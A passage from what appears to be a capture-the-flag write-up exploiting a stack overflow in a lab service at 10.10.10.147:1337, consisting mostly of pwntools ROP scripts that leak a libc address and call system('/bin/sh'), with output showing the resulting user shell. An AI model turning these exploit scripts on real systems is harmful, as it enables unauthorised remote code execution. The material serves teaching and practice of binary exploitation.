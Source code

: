     p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    leaked_puts = u64(p.recvline().strip()[7:-11].ljust(8,"\x00"))

    log.info("Leaked puts address: %x" % leaked_puts)
    libc_base = leaked_puts - 0x68f90
    log.info("libc_base: %x" % libc_base)

    sh = p64(0x161c19 + libc_base)

    payload = junk + pop_rdi + sh + plt_system
    p.recvline()
    p.sendline(payload)
    p.interactive()



Now I can run it and get a shell as user:



    root@kali# ./pwn_safe-m1.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [*] Leaked puts address: 7f8b53974f90
    [*] libc_base: 7f8b5390c000
    [*] Switching to interactive mode
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)



#### Method 2: Write /bin/sh

Since I already have access to `system` and `gets`, and all I'm missing
is the string `/bin/sh`. So if I can just write that string into memory
somewhere that will be statically addressed, then I'm good.

When I look in IDA, I can see the `.data` section is marked Read/Write:

![](/img/1571340084992.png)

So I'll have my ROP call `gets(0x404038)`, send "/bin/sh\\x00" to be
read by `gets`, and then `system(0x404038)`.

That will look like:



    #!/usr/bin/env python

    from pwn import *

    context(os="linux", arch="amd64")
    #context(log_level='DEBUG')

    junk = "A"*120

    plt_gets = p64(0x401060)
    plt_system = p64(0x401040)
    pop_rdi = p64(0x40120b)
    binsh = p64(0x404038)
